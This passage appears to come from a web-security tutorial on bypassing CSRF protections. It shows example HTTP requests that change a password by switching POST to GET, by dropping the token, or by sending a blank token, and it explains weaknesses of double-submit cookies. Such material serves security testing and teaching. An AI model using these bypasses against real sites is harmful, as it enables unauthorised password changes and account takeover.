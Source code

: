 Code: http

```http
POST /change_password
POST body:
new_password=pwned&confirm_new=pwned
```

Code: http

```http
GET /change_password?new_password=pwned&confirm_new=pwned
```

Unexpected requests may be served without the need for a CSRF token.

## Delete the CSRF token parameter or send a blank token

Not sending a token works fairly often because of the following common application logic mistake. Applications sometimes only check the token's validity if the token exists or if the token parameter is not blank.

Real Request:

Code: http

```http
POST /change_password
POST body:
new_password=qwerty&csrf_token=9cfffd9e8e78bd68975e295d1b3d3331
```

Try:

Code: http

```http
POST /change_password
POST body:
new_password=qwerty
```

Or:

Code: http

```http
POST /change_password
POST body:
new_password=qwerty&csrf_token=
```

## Session Fixation > CSRF
Sometimes, sites use something called a double-submit cookie as a defense against CSRF. This means that the sent request will contain the same random token both as a cookie and as a request parameter, and the server checks if the two values are equal. If the values are equal, the request is considered legitimate.

If the double-submit cookie is used as the defense mechanism, the application is probably not keeping the valid token on the server-side. It has no way of knowing if any token it receives is legitimate and merely checks that the token in the cookie and the token in the request body are the same.
